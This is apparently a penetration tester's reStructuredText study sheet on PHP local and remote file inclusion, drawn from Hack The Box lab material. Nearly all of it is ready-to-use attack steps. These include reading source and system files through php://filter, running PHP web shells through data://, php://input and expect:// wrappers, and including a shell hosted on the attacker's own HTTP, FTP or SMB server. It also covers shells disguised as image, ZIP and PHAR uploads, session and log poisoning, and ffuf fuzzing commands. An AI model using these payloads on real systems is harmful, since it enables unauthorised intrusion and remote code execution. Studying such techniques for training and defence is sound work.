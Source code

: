 ################
File Inclusion
################

2024-12-03 07:50

Status:

Tags: 


*****************
Using PHP filters
*****************

php filters can allow you to view the contents of unreadable files

example 1 : step 1 - find file that you wish to read the source code of:( has no output)

.. code-block:: console

   ffuf -w ~/HTB/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt  -u http://94.237.59.180:41191/FUZZ.php

   found configure

Example 2: Use the Conversion Filter to read the file:

.. code-block:: console

   curl http://94.237.59.180:41191/index.php?language=php://filter/read=convert.base64-encode/resource=configure

************************
Using PHP Wrappers
************************

Example 1: Reading a system file

.. code-block:: console

    curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

******************************
RCE (Remote code execution)
******************************

This technique users the GET method

Step 1: Encode the shell

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' | base64

*Note: if the system does not take the GET command, encode the payload
in system command.*

Step 2: From a web browser

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

Or from CURL

.. code-block:: console

   curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'


******************************
Using the input wrapper
******************************

This technique users the POST method, so it must be enabled on the
server

Example: Using curl

.. code-block:: console

   curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"


******************************
Using the Expect Wrapper
******************************

Rare that this is include. It has to be installed manually. This wrapper
runs code without the shell.

Example:

.. code-block:: console

   curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
   uid=33(www-data) gid=33(www-data) groups=33(www-data)

******************************
Remote File Inclusion (RFI)
******************************

This is normally disabled by default In PHP the ``allow_url_include``
needs to be enabled for this to work.

******************************
Using a web server
******************************

Example 1: To test this try a RFI in the browser request

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

If you see it’s own content encapsulated, it is vulnerable.

Example 2: Performing a RFI attack. Step one: Encode a shell

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' > shell.php

Step two: Host this on your server

.. code-block:: console

   sudo python3 -m http.server <LISTENING_PORT>

Step three: Request this shell in the browser

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

**Tip:**\ * We can examine the connection on our machine to ensure the
request is being sent as we specified it. For example, if we saw an
extra extension (.php) was appended to the request, then we can omit it
from our payload*

******************************
Using an FTP server
******************************

**Note**\ *: This can also be hosted on your FTP server if http/https is
blocked on a WAF*

.. code-block:: console

   curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'

******************************
Using a SMB server
******************************

Step 1: Start a Samba server
.. code-block::

   impacket-smbserver -smb2support share $(pwd)

Request the shell

.. code-block:: console

   http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami

******************************
File Uploads
******************************

Example 1: Using LFI
Step one: Create the shell with an image extension
.. code-block:: console

   echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

Step two: Upload the file

Step three: Find the image location

Step four: Execute the file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

Example 2: Using ZIP files ( Zip wrapper)

https://www.php.net/manual/en/wrappers.compression.php

Step 1: zipping the file

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

*Note: If the server inspects and denies ZIP content this may not work*

Step 2: Upload the file

Step 3: Execute the file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

Example 3: Using PHAR wrapper

Step 1: Write the following inside of shell.php

.. code-block:: console

   <?php
   $phar = new Phar('shell.phar');
   $phar->startBuffering();
   $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
   $phar->setStub('<?php __HALT_COMPILER(); ?>');

   $phar->stopBuffering();

Step 2: Compile the it into a phar file and rename it to shell.jpg

.. code-block:: console

    php --define phar.readonly=0 shell.php
    mv shell.phar shell.jpg

Step 3: Upload the file to the server

Step 4: Execute it with the phar wrapper

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

******************************
Poisoning
******************************

===================
Session Poisoning
===================

By URL encoding a shell.

Example: Step 1: urlencode the shell

.. code-block:: console

   urlencode '<?php system($_GET["cmd"]);?>' 

Step 2: Request this as an inclusion

.. code-block:: console

   Browser:  http://94.237.59.180:40783/index.php?language=<urlencoded-string>

Step 3: Using your session id ( add ``sess_`` before it )

.. code-block:: console

   Browser: /var/lib/php/sessions/sess_bpo3d1hh7nbb6p1frr98udaa60&cmd=id

=====================
Server Log Poisoning
=====================

By modifying the user-agent field we can specify a shell that will be
copied to the log.
.. code-block::

   Temen@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

The by requesting the log with:

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id


=====================
Automated Scanning
=====================

Using :ref:`ffuf <ffuf>` to find parameters


Looking for parameter names to use with your RFI/LFI attacks

.. code-block:: console

   Temen@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' 

===============
LFI Word lists
===============

Download here:
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

Using it with :ref:`ffuf <ffuf>`

.. code-block:: console

   ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

======================
Fuzzing Server Files
======================

Finding the Webroot and structure of the server


Part of Seclists, but can be downloaded for Linux:
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt

And for Windows
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

Example:

.. code-block:: console

   ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'

==================================
Finding the location of the logs
==================================

Example: Using the linux LFI list

.. code-block:: console

   ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ'

Example 2: Find logs by asking the conf file

.. code-block:: console

   curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

===================
Common LFI Tools
===================
https://github.com/mzfr/liffy

*************
References
*************

https://academy.hackthebox.com/module/23/section/250
https://www.php.net/manual/en/wrappers.data.php
https://academy.hackthebox.com/module/23/section/253
https://www.php.net/manual/en/wrappers.php.php
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion
